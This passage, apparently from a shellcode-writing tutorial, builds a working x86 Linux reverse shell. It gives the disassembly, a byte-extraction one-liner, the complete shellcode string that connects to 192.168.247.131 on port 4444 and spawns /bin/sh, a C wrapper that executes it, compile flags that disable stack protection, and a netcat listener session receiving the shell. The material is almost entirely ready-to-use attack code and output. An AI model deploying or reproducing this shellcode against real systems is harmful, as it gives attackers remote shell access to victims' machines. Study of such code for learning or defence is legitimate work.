 ```shell
 80480bc:	52                   	push   edx
 80480bd:	68 2f 2f 73 68       	push   0x68732f2f
 80480c2:	68 2f 62 69 6e       	push   0x6e69622f
 80480c7:	89 e3                	mov    ebx,esp
 80480c9:	89 d1                	mov    ecx,edx
 80480cb:	b0 0b                	mov    al,0xb
 80480cd:	cd 80                	int    0x80
 ```
 No null bytes so we are good keep moving forward.
 
 Extract bytes:
 ```shell
 objdump -d ./reverse_shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x43\x68\xc0\xa8\xf7\x83\x66\x68\x11\x5c\x66\x53\x43\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x89\xfb\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80"
 ```
 Put it into our shellcode wrapper:
 ```c
 #include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x43\x68\xc0\xa8\xf7\x83\x66\x68\x11\x5c\x66\x53\x43\x89\xe1\x6a\x10\x51\x57\x89$

main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
 ```
 Compile:
 ```shell
 gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
 ```
 Now it should be good to run! Start your listener, then run your reverse_shell:
 ```shell
 ./shellcode
Shellcode Length:  79
 ```
 Listen for connection and issue command:
 ```shell
 nc -lvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [192.168.247.131] port 4444 [tcp/*] accepted (family 2, sport 45306)
who
pwoer    tty7         Dec 11 10:13 (:0)
 ```

